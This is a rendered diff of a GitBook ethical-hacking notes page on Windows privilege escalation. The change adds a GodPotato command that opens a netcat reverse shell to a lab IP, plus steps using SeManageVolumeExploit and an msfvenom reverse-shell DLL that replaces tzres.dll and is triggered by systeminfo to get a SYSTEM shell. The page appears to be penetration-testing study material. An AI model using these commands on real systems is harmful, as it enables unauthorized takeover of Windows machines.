

Before and after one commit to rottaj/Rotta-Rocks, a Markdown page: ethical-hacking/windows-privilege-escalation/escalating-privilege.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
GITBOOK-269: change request with no subject merged in GitBook

````diff
--- a/ethical-hacking/windows-privilege-escalation/escalating-privilege.md
+++ b/ethical-hacking/windows-privilege-escalation/escalating-privilege.md
@@ -172,9 +172,38 @@ SeIncreaseWorkingSetPrivilege Increase a process working set   Disabled
 
 ```
 
-SeImpersonatePrivilege
+### SeImpersonatePrivilege
 
-SeManageVolumePrivilege
+{% embed url="https://github.com/BeichenDream/GodPotato" %}
+
+```powershell
+.\GodPotato.exe -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
+```
+
+### SeManageVolumePrivilege
+
+Running this exploit allows us RWX access to C:\ drive. We can create any PE or dll and execute it. To gain SYSTEM we can replace a dll with a malicious one.
+
+{% embed url="https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public" %}
+
+Run exploit
+
+<pre class="language-powershell"><code class="lang-powershell"><strong>C:\Users\svc_mssql> .\SeManageVolumeExploit.exe
+</strong></code></pre>
+
+#### Create malicious dll & replace it in C:\Windows\System32\wbem\\
+
+```shell-session
+$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.49.211 LPORT=6666 -f dll -o tzres.dll
+```
+
+#### Execute systeminfo (triggering malcious dll). We get a SYSTEM shell back to our listener.
+
+```powershell
+PS> systeminfo
+```
+
+
 
 SeDebugPrivilege
 
````
